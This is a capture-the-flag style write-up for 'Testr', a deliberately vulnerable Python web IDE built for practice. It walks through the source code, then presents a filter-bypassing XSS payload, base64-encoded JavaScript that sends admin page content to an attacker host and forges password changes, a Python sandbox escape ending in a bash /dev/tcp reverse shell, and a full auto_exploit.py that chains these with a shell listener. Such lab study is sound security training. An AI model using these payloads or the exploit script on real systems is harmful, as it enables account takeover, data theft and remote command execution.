

Testr is an invite-only web-based IDE for Python, created with the purpose of practicing web-app vulnerabilities. Specifically XSS and Code injecetion / Filter bypassing.

There is a cronjob which emualates admin actions every minute in the docker container.

[Github Testr Page](https://github.com/bmdyy/testr)

# Diagram



## General Information

- Machine Name: Testr
- IP Add: 172.17.0.2
- Machine OS: Linux
- Open Ports: 5000
- Programming Language: Python

## Detailed Information

* [x] Code injection:  
  * [x] User controlled parameters:
  * [x] Ability to inject PHP, JS, etc:
* [x] XSS:
  * [x] Injectable fields: Website in apply field
  * [x] Alert box: Done - q=%3Cimg%20src=x%20o%3Cscriptnerror=javajavascript:script:(function(){alert(1)})()%3E
  * [x] CSRF: Change admin secret and password
* [x] Vulnerabilities discovered:
  * [x] Type: XSS, CSRFand Cmd Injection
  * [x] PoC: auto_exploit.py
* [x] Reverse Shell:
  * [x] Python: Cmd injection in python

# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 172.17.0.2
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 5000

We try to open it on the browser


We are automatically redirected to the login page. We can see on the description of it a message `An invite-only web-based Python IDE.`

Let's start some enum on the functions of this website

### Web Functions

We try to put an invalid e-mail in it


And on burp we have the same request


We can see a `Reset Password` field, and we click it

Asks for some information


And we can click in `Apply` to create a new user.


The **Link to portfolio / website** called my attention, it calls for **Our admin will review your portfolio if you chose to include one** possible we can have some kind of XSS in this page, because the admin will see the posts

Ok, let's just test this XSS

## Simple Interaction

We fill the apply form in the website


We receive the message that the application was sent


In burp we can see the request being made


And redirected to /login


We try to login and the messsage we receive is:


We try to change the password


We can change the password too.


# Code Analysis

Let's start looking at our app.py code, to see what you need to do


## Root Page (/)

```py
@app.route('/')
def index():
    if session.get('logged_in') != True:
        return redirect('login')
    else:
        return redirect('editor')
```

The first lines we see that it checks if the user is logged_in, if it's , redirecto to editor page, else not redirect to login page

## /login

Now the login page


```py
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        sha256_password = hashlib.sha256(request.form['password'].encode('utf-8')).hexdigest()
        params = (request.form['email'], sha256_password,)

        con = db_utils.db_con()
        cur = con.cursor()
        result = cur.execute('SELECT * FROM users WHERE email = ? AND password = ?', params)
        rows = result.fetchall()
        con.close()

        if len(rows) > 0:
            if rows[0][2] == 1:
                session['logged_in'] = True
                session['user'] = list(rows[0])
                return redirect('editor')
            else:
                flash("Account is awaiting approval.", 'error')
                return render_template('login.html')
        else:
            flash("Incorrect Username/Password.", 'error')
            return render_template('login.html')
```

Now we start the login function. It checks for two methods both GET and POST are accepted.

If it's GET, just show the login.html page

If it's POST, it gets the email and sha256 hashed password and compare with the database. The rows will be the result of the query, if the result is 1, seems that it's logged in. If it's not, that seems that our user was not updated yet and we are waiting approval.

If you put an incorrect password or email, you get the login.html page.

Conclusion. To "bypass" the auth, our row must be 1.

## /logout

Now, the logout page


```py
@app.route('/logout')
def logout():
    session.clear()
    flash("Logged out!", 'success')
    return redirect('login')
```

Seems that it's justing logging out the user, nothing useful for exploration here.

## /reset

Now, the reset function


```py
@app.route('/reset',methods=['POST'])
def reset():
    email = request.form['email']
    phrase = request.form['secret_phrase']
    password = request.form['password']
    password2 = request.form['password2']
    if email and phrase and password and password2:
        if password == password2:
            con = db_utils.db_con()
            cur = con.cursor()

            sha256_phrase = hashlib.sha256(phrase.encode('utf-8')).hexdigest()
            params = (email, sha256_phrase)
            result = cur.execute('SELECT * FROM users WHERE email = ? AND secret_phrase = ?', params)
            if len(result.fetchall()) > 0:
                sha256_password = hashlib.sha256(password.encode('utf-8')).hexdigest()
                params = (sha256_password, email)

                cur.execute('UPDATE users SET password = ? WHERE email = ?', params)
                con.commit()
                con.close()

                flash("Password changed!", 'success')
                return redirect('/login')
            else:
                flash("Incorrect secret/email", 'error')
                return redirect('/login')
        else:
            flash("Passwords don't match.", 'error')
            return redirect('/login')
    else:
        flash("Please fill out all fields.", 'error')
        return redirect('/login')
```

This seems a little more complex. Let's debug all of it.

Accepts just POST. Gets the params from what we pass as data in the post request. Test for password1 and password2, if it's the same, sha256 in the password, test if the secret_phrase is correct, if yes, update the new password. Else, send the incorrect secret/email, if the passwords does not match, shows the Passwords does not match message, if we did not fill any of the fields, the app ask us to do that. Nothings really useful for now here.

## /apply

We will se the apply function now


```py
@app.route('/apply',methods=['POST'])
def apply():
    name = request.form['name']
    email = request.form['email']
    website = request.form['website']
    phrase = request.form['secret_phrase']
    password = request.form['password']
    password2 = request.form['password2']

    if name and email and phrase and password and password2:
        if password == password2:
            con = db_utils.db_con()
            cur = con.cursor()
            params = (email,)
            result = cur.execute('SELECT * FROM users WHERE email = ?', params)
            if len(result.fetchall()) == 0:
                sha256_phrase = hashlib.sha256(phrase.encode('utf-8')).hexdigest()
                sha256_password = hashlib.sha256(password.encode('utf-8')).hexdigest()
                params = (email, None, None, name, website, sha256_password, sha256_phrase)
                cur.execute('INSERT INTO users VALUES (?,?,?,?,?,?,?)', params)
                con.commit()
                con.close()
                flash("Application sent!",'success')
                return redirect('/login')
            else:
                con.close()
                flash("Email already taken",'error')
                return redirect('/login')
        else:
            con.close()
            flash("Passwords don't match.",'error')
            return redirect('/login')
    else:
        con.close()
        flash("Please fill out all fields.",'error')
        return redirect('/login')
```

This is the apply function. Accept just POST method. Set the variables on what we send as data. Test to see if we send all the values, test to see if the password1 is the same than the password2. Execute a query on the database to see if the email has already taken, if yes, shows the message Email Already Taken, if not, sha256 in the phrase and password, and insert the values in the database with the email and name. If the passwords does not match, show the passwords does not match, if we do not fill any of the param, asks us to do that.

The only thing here we possibly can exploit is the message field, because we know that probably the admin is looking at it every minute, we see on the website that it's for approval.

## /api


```py
@app.route('/api')
def api():
    return render_template('api.html')
```

Shows the API page help.

## /update_details

Now, the update user details


```py
@app.route('/update_details',methods=['POST'])
def update_details():
    if session.get('logged_in') != True:
        return redirect('login')
    else:
        name = request.form['name']
        params = (name,session['user'][0])
        con = db_utils.db_con()
        cur = con.cursor()
        cur.execute('UPDATE users SET name = ? WHERE email = ?', params)
        con.commit()
        con.close()
        session['user'][3] = name
        flash("Successfully updated details!",'success')
        return redirect('/editor')
```

Accepts just POST method, and test if we are logged_in, if yes, we can change name. And we are redirected to the editor page.

## /change_password

Let's see the change_password function


```py
@app.route('/change_password',methods=['POST'])
def change_password():
    if session.get('logged_in') != True:
        return redirect('login')
    else:
        phrase = request.form['secret_phrase']
        password = request.form['password']
        password2 =  request.form['password2']
        if phrase and password and password2:
            if password == password2:
                sha256_phrase = hashlib.sha256(phrase.encode('utf-8')).hexdigest()
                params = (session['user'][0], sha256_phrase)
                con = db_utils.db_con()
                cur = con.cursor()
                result = cur.execute('SELECT * FROM users WHERE email = ? AND secret_phrase = ?', params)
                if len(result.fetchall()) > 0:
                    sha256_password = hashlib.sha256(password.encode('utf-8')).hexdigest()
                    params = (sha256_password,session['user'][0])
                    cur.execute('UPDATE users SET password = ? WHERE email = ?', params)
                    con.commit()
                    con.close()
                    flash("Successfully changed password!",'success')
                    return redirect('/editor')
                else:
                    flash("Secret phrase is incorrect.",'error')
                    return redirect('/editor')
            else:
                flash("Passwords don't match.",'error')
                return redirect('/editor')
        else:
            flash("Please fill out all fields",'error')
            return redirect('/editor')
```

Let's see what we got here. Just accept the POST method. Session must be logged in. Test to see if the three params are being passed, sha256 in the phrase and test it in the database, if it get ok, then change the password in sha256 too. If not show errors messages.

## /change_secret_phrase

Now, let's look at how to change the secret phrase


```py
@app.route('/change_secret_phrase',methods=['POST'])
def change_secret_phrase():
    if session.get('logged_in') != True:
        return redirect('login')
    else:
        phrase = request.form['secret_phrase']
        phrase2 = request.form['secret_phrase2']
        if phrase and phrase2:
            if phrase == phrase2:
                sha256_phrase = hashlib.sha256(phrase.encode('utf-8')).hexdigest()
                params = (sha256_phrase,session['user'][0])
                con = db_utils.db_con()
                cur = con.cursor()
                cur.execute('UPDATE users SET secret_phrase = ? WHERE email = ?', params)
                con.commit()
                con.close()
                flash("Successfully changed secret phrase!",'success')
                return redirect('/editor')
            else:
                flash("Secret phrases don't match.",'error')
                return redirect('/editor')
        else:
            flash("Please fill out all fields",'error')
            return redirect('/editor')
```

Here again, just POST requests. Test to see if it's logged in. If yes, get the phrases from the params, test to see if they are equal. Sha256 in them and change it in the database, else show error messages and redirect to the /editor page.

## /editor

Now the things are getting interesting


```py
illegal_keywords = [
    '__import__','import','compile','delattr','dir','eval', 'execfile', 'file','getattr','globals','hasattr',
    'input','locals','open','raw_input','reload','setattr','vars','im_class', 'im_func', 'im_self',
    'func_code', 'func_defaults', 'func_globals', 'func_name','tb_frame', 'tb_next','f_back','f_builtins',
    'f_code', 'f_exc_traceback','f_exc_type', 'f_exc_value', 'f_globals', 'f_locals','subprocess'
]
@app.route('/editor', methods=['GET','POST'])
def editor():
    if session.get('logged_in') != True:
        return redirect('login')
    else:
        if request.method == 'GET':
            apps = None
            if session['user'][1] == 1:
                con = db_utils.db_con()
                cur = con.cursor()
                result = cur.execute('SELECT * FROM users WHERE approved is null')
                apps = result.fetchall()
                con.close()

            return render_template('editor.html', code='', out='', apps=apps)

        elif request.method == 'POST':
            code = request.form['code']
            try:
                bad = False
                for keyword in illegal_keywords:
                    if keyword in code:
                        bad = True

                if not bad:
                    # NOTE: Switched from Subprocess.Popen to exec for security reasons
                    # prog = ['python3','-c',code.encode('utf-8')]
                    # output = subprocess.check_output(prog, stderr=subprocess.STDOUT)
                    # output = output.decode('utf-8')
                    out = StringIO()
                    error = None
                    with contextlib.redirect_stdout(out):
                        try:
                            exec(code)
                        except Exception as e:
                            error = e
                    if error:
                        output = error
                    else:
                        output = out.getvalue()
                        if output == "":
                            output = "No output"
                else:
                    output = "Illegal Input"
            except subprocess.CalledProcessError as exc:
                return render_template('editor.html', code=code, out="%s"%exc.output.decode('utf-8'))
            else:
                return render_template('editor.html', code=code, out=output)
```

We have some Illegal Keywords in the beggining of the function, most of them are related to RCE. It accepts GET and POST methods, test to see if we are logged in, if yes, test to see if the method is GET test the session for the user, if it's 1, shows all the non approved users.

If the method is POST, get from the data the param code, test to see if we got some illegal key in it. If not, exec the code.

Interesting, we have some kind of command execution, we already know where probably we'll inject our payload. But first we need to bypass the authencation.

## /approve

This is the /approve page


```py
@app.route('/approve',methods=['POST'])
def approve():
    if session.get('logged_in') != True:
        return redirect('login')
    else:
        if session['user'][1] != 1:
            return redirect('index')
        else:
            email = request.form['email']
            if email:
                params = (email,)
                con = db_utils.db_con()
                cur = con.cursor()
                result = cur.execute('UPDATE users SET approved = 1 WHERE email = ?',params)
                con.commit()
                con.close()
                return 'Approved'
```

Accept just POST method. Test to see if the user is logged in, if the id is 1, it approve it in the database.

## /deny

This is the /deny page


```py
@app.route('/deny',methods=['POST'])
def deny():
    if session.get('logged_in') != True:
        return redirect('login')
    else:
        if session['user'][1] != 1:
            return redirect('index')
        else:
            email = request.form['email']
            if email:
                params = (email,)
                con = db_utils.db_con()
                cur = con.cursor()
                result = cur.execute('DELETE FROM users WHERE email = ?',params)
                con.commit()
                con.close()
                return 'Denied'
```

We will use our python skeleton to do that

The same way from allow, but for delete.

## Conclusion

We get two probably vectors of attack.

1 - Auth Bypass will probably be on the XSS we can do on apply function.

2 - RCE will be on the editor function.

# XSS Admin

Let's start to hunt for this XSS.

We did not find too much indicates that XSS is happening on the app.py, that's because XSS relies on html files, we have three html files in the /templates folder


We need to have someway to input data in the tags, to get it executed. So we'll grep for `<input` tags

And we found a suspicious input in the api.html file

```sh
grep -nr "<input" ./
```


Obvisoly we found a lot of them, because every place the user can input data, it appears here. One that I did not realize before was the "q" in api.html.

It shows the "q" parameter in it accepts data


We see that it's the get_id from the function in the app.py file, we can test it to see if it's really that


Yes, that's it. And we can pass information from it also.

```
Sends an application for membership.
Requires this body:
{name, email, secret_phrase, password, password2}
```

Humm... interesting, we can create a user from here. Other important thing we see on the end of this api.html file


```js
    <script>
        const re = new RegExp(/(\b)(on\S+)(\s*)=|javascript:|(<\s*)(\/*)script|style(\s*)=|(<\s*)meta/ig);
        function cleanStr(s) {
            return s.replaceAll(re, '');
        }
        function getUrlParameter(name) {
            name = name.replace(/[\[]/, '\\[').replace(/[\]]/, '\\]');
            var regex = new RegExp('[\\?&]' + name + '=([^&#]*)');
            var results = regex.exec(location.search);
            return results === null ? '' : decodeURIComponent(results[1].replace(/\+/g, ' '));
        };
        if (window.location.search.indexOf('q') > -1) {
            var q = cleanStr(getUrlParameter('q'));
            var list = document.getElementsByTagName("h2");
            var found = false;
            for (var i = 0; i < list.length && !found; i++) {
                if (list[i].id.indexOf(q) >= 0) {
                    document.getElementById(list[i].id).scrollIntoView();
                    found = true;
                }
            }
            if (!found) document.getElementById('msg').innerHTML = 
                q + ' does not appear in the API documentation.';
        }
    </script>
```

It seems to be making some kind of sanitization in our inputs, what show us that our XSS payload must be different than the stantard ones, we must find one which bypass this filter.

We download a huge xss list and adapt it to show me only with the script tags


We get the parameters which it's testing and make our try and error trying to get one of them working properly


This XSS should work, I got from this [list](https://www.kitploit.com/2018/05/xss-payload-list-cross-site-scripting.html)

```
</img>
```

Adapting it to our needs, we have it done

```

```


What about we take the /editor page from the admin, once we know that we cannot access it from our browser

This is the payload we want to execute. It will make a request to /editor, with the admin session and give me the base64 content of the page.

```js
function read_editor(){
        var req=new XMLHttpRequest();
        var url = "http://172.17.0.2:5000/editor";
        req.open("GET", url, true);
        req.send();
        req.onreadystatechange = function(){
        if(req.readyState == XMLHttpRequest.DONE){
                var resultText = btoa(req.response);
                send(resultText)
                }
        }
}

function send(resultText){
        var xhr=new XMLHttpRequest();
        xhr.open('GET', 'http://172.17.0.1/?xss=' + resultText, true);
        xhr.send();
}

read_editor();
```

I want to get it, so I write it to the Website field, once I know that the admin look at it every minute and execute it

```
http://172.17.0.2:5000/api?q=%3Cimg%20src=x%20o%3Cscriptnerror=javajavascript:script:eval(atob(%27ZnVuY3Rpb24gcmVhZF9lZGl0b3IoKXsKICAgICAgICB2YXIgcmVxPW5ldyBYTUxIdHRwUmVxdWVzdCgpOwogICAgICAgIHZhciB1cmwgPSAiaHR0cDovLzE3Mi4xNy4wLjI6NTAwMC9lZGl0b3IiOwogICAgICAgIHJlcS5vcGVuKCJHRVQiLCB1cmwsIHRydWUpOwogICAgICAgIHJlcS5zZW5kKCk7CiAgICAgICAgcmVxLm9ucmVhZHlzdGF0ZWNoYW5nZSA9IGZ1bmN0aW9uKCl7CiAgICAgICAgaWYocmVxLnJlYWR5U3RhdGUgPT0gWE1MSHR0cFJlcXVlc3QuRE9ORSl7CiAgICAgICAgICAgICAgICB2YXIgcmVzdWx0VGV4dCA9IGJ0b2EocmVxLnJlc3BvbnNlKTsKICAgICAgICAgICAgICAgIHNlbmQocmVzdWx0VGV4dCkKICAgICAgICAgICAgICAgIH0KICAgICAgICB9Cn0KCmZ1bmN0aW9uIHNlbmQocmVzdWx0VGV4dCl7CiAgICAgICAgdmFyIHhocj1uZXcgWE1MSHR0cFJlcXVlc3QoKTsKICAgICAgICB4aHIub3BlbignR0VUJywgJ2h0dHA6Ly8xNzIuMTcuMC4xLz94c3M9JyArIHJlc3VsdFRleHQsIHRydWUpOwogICAgICAgIHhoci5zZW5kKCk7Cn0KCnJlYWRfZWRpdG9yKCk7%27))%3E
```


We wait one minute, and got it in our nc listen port 80


We adapt it to decode64

Now, we decode and access it with a python web server, just to see what we can do as admin


We have a Settings tab

Where we can change the admin password, very good. What about to change it?


We send the both requests to burp, to change the Secret Phrase and to change the password, to see what params we need to use


Ok, we already know how to change it and how to change the admin password

So, let's make it happen.

```js
function change_secret_phrase(){
        var req=new XMLHttpRequest();
        var url = "http://172.17.0.2:5000/change_secret_phrase";
        var params = "secret_phrase=123&secret_phrase2=123";
        req.open("POST", url, true);
        req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        req.send(params);
        req.onreadystatechange = function(){
        if(req.readyState == XMLHttpRequest.DONE){
                var resultText = btoa(req.response);
                send(resultText)
                }
        }
}

function change_password(){
        var req=new XMLHttpRequest();
        var url = "http://172.17.0.2:5000/change_password";
        var params = "secret_phrase=123&password=456&password2=456";
        req.open("POST", url, true);
        req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        req.send(params);
        req.onreadystatechange = function(){
        if(req.readyState == XMLHttpRequest.DONE){
                var resultText = btoa(req.response);
                send(resultText)
                }
        }
}

function send(resultText){
        var xhr=new XMLHttpRequest();
        xhr.open('GET', 'http://172.17.0.1/?xss=' + resultText, true);
        xhr.send();
}

change_secret_phrase();
change_password();
```

```
http://172.17.0.2:5000/api?q=%3Cimg%20src=x%20o%3Cscriptnerror=javajavascript:script:eval(atob(%27
ZnVuY3Rpb24gY2hhbmdlX3NlY3JldF9waHJhc2UoKXsKICAgICAgICB2YXIgcmVxPW5ldyBYTUxIdHRwUmVxdWVzdCgpOwogICAgICAgIHZhciB1cmwgPSAiaHR0cDovLzE3Mi4xNy4wLjI6NTAwMC9jaGFuZ2Vfc2VjcmV0X3BocmFzZSI7CiAgICAgICAgdmFyIHBhcmFtcyA9ICJzZWNyZXRfcGhyYXNlPTEyMyZzZWNyZXRfcGhyYXNlMj0xMjMiOwogICAgICAgIHJlcS5vcGVuKCJQT1NUIiwgdXJsLCB0cnVlKTsKICAgICAgICByZXEuc2V0UmVxdWVzdEhlYWRlcignQ29udGVudC10eXBlJywgJ2FwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCcpOwogICAgICAgIHJlcS5zZW5kKHBhcmFtcyk7CiAgICAgICAgcmVxLm9ucmVhZHlzdGF0ZWNoYW5nZSA9IGZ1bmN0aW9uKCl7CiAgICAgICAgaWYocmVxLnJlYWR5U3RhdGUgPT0gWE1MSHR0cFJlcXVlc3QuRE9ORSl7CiAgICAgICAgICAgICAgICB2YXIgcmVzdWx0VGV4dCA9IGJ0b2EocmVxLnJlc3BvbnNlKTsKICAgICAgICAgICAgICAgIHNlbmQocmVzdWx0VGV4dCkKICAgICAgICAgICAgICAgIH0KICAgICAgICB9Cn0KCmZ1bmN0aW9uIGNoYW5nZV9wYXNzd29yZCgpewogICAgICAgIHZhciByZXE9bmV3IFhNTEh0dHBSZXF1ZXN0KCk7CiAgICAgICAgdmFyIHVybCA9ICJodHRwOi8vMTcyLjE3LjAuMjo1MDAwL2NoYW5nZV9wYXNzd29yZCI7CiAgICAgICAgdmFyIHBhcmFtcyA9ICJzZWNyZXRfcGhyYXNlPTEyMyZwYXNzd29yZD00NTYmcGFzc3dvcmQyPTQ1NiI7CiAgICAgICAgcmVxLm9wZW4oIlBPU1QiLCB1cmwsIHRydWUpOwogICAgICAgIHJlcS5zZXRSZXF1ZXN0SGVhZGVyKCdDb250ZW50LXR5cGUnLCAnYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkJyk7CiAgICAgICAgcmVxLnNlbmQocGFyYW1zKTsKICAgICAgICByZXEub25yZWFkeXN0YXRlY2hhbmdlID0gZnVuY3Rpb24oKXsKICAgICAgICBpZihyZXEucmVhZHlTdGF0ZSA9PSBYTUxIdHRwUmVxdWVzdC5ET05FKXsKICAgICAgICAgICAgICAgIHZhciByZXN1bHRUZXh0ID0gYnRvYShyZXEucmVzcG9uc2UpOwogICAgICAgICAgICAgICAgc2VuZChyZXN1bHRUZXh0KQogICAgICAgICAgICAgICAgfQogICAgICAgIH0KfQoKZnVuY3Rpb24gc2VuZChyZXN1bHRUZXh0KXsKICAgICAgICB2YXIgeGhyPW5ldyBYTUxIdHRwUmVxdWVzdCgpOwogICAgICAgIHhoci5vcGVuKCdHRVQnLCAnaHR0cDovLzE3Mi4xNy4wLjEvP3hzcz0nICsgcmVzdWx0VGV4dCwgdHJ1ZSk7CiAgICAgICAgeGhyLnNlbmQoKTsKfQoKY2hhbmdlX3NlY3JldF9waHJhc2UoKTsKY2hhbmdlX3Bhc3N3b3JkKCk7%27))%3E
```

We send and wait 1 minute


We pass both to a file (the base64 code)


We see the change token message


And the change password message


Got it! Now we can login as admin!


Now let's hunt our RCE on this box.

# RCE

We already know that we can execute some kind of code in the /editor with a POST request with code as param. We saw that on our code analysis earlier. We must now only to understand how we can do that.

We try to send an import, just to see how it trigger the illegal keywords of the code we saw earlier


Once we know that we have a huge blacklist we can use the templates module to get what we want.

[Here](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes) we got a good way for how to have arbitrary command execution

```
print(().__class__.__base__.__subclasses__())
```


We pass it to a txt file, change the "," for \n and now we can have the offset from the `popen` which we can use to execute commands in the box


Now we know that the offset from popen is 214, we can use it to execute commands, we use 213 because the first line is just garbage, so the popen become 213.

```
print(().__class__.__base__.__subclasses__()[213](['/bin/bash','-c','bash -i >& /dev/tcp/172.17.0.1/445 0>&1']))
```

Now we have reverse shell on the box.


# Exploit

Let's make a exploit to do this all stuff together

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_exploit.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Testr from bmdyy - Auto Exploit

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# Base64 things
def b64e(s):
    return base64.b64encode(s.encode()).decode()
    
def sendMaliciousXSS(rhost):
    print("[+] Let's send the malicious XSS and trigger [+]")
    payload = "function change_secret_phrase(){\n"
    payload += "        var req=new XMLHttpRequest();\n"
    payload += "        var url = 'http://%s:5000/change_secret_phrase';\n" %rhost
    payload += "        var params = 'secret_phrase=123&secret_phrase2=123';\n"
    payload += "        req.open('POST', url, true);\n"
    payload += "        req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');\n"
    payload += "        req.send(params);\n"
    payload += "}\n"
    payload += "\n"
    payload += "function change_password(){\n"
    payload += "        var req=new XMLHttpRequest();\n"
    payload += "        var url = 'http://%s:5000/change_password';\n" %rhost
    payload += "        var params = 'secret_phrase=123&password=456&password2=456';\n"
    payload += "        req.open('POST', url, true);\n"
    payload += "        req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');\n"
    payload += "        req.send(params);\n"
    payload += "}\n"
    payload += "\n"
    payload += "change_secret_phrase();\n"
    payload += "change_password();\n"
    payload_b64 = b64e(payload)
    # Just sending it to the server
    url = "http://%s:5000/apply" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"name": "0x4rt3mis", "email": "0x4rt3mis@email.com", "website": "http://172.17.0.2:5000/api?q=%3Cimg%20src=x%20o%3Cscriptnerror=javajavascript:script:eval(atob(%27" + payload_b64 + "%27))%3E", "secret_phrase": "123", "password": "123", "password2": "123"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Payload Sent, wait some minutes to get it triggered!! [+]")
    os.system("sleep 120")
    print("[+] Possily it was already triggered, now let's login as admin to get rev shell !! [+]")

# Login as admin    
def loginAdmin(rhost):
    print("[+] Logging in !! [+]")
    url = "http://%s:5000/login" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"email": "admin@tes.tr", "password": "456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In !!!!! [+]")
    
# Get reverse shell
def getReverseShell(rhost,lport,lhost):
    print("[+] Let's get the reverse shell !!!! [+]")
    url = "http://%s:5000/editor" % rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"code": "().__class__.__base__.__subclasses__()[213](['/bin/bash','-c','bash -i >& /dev/tcp/%s/%s 0>&1'])" %(lhost,lport)}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Send malicious xss
    sendMaliciousXSS(rhost)
    # Just admin login
    loginAdmin(rhost)
    # Get reverse shell
    getReverseShell(rhost,lport,lhost)

if __name__ == '__main__':
    main()
```

Done!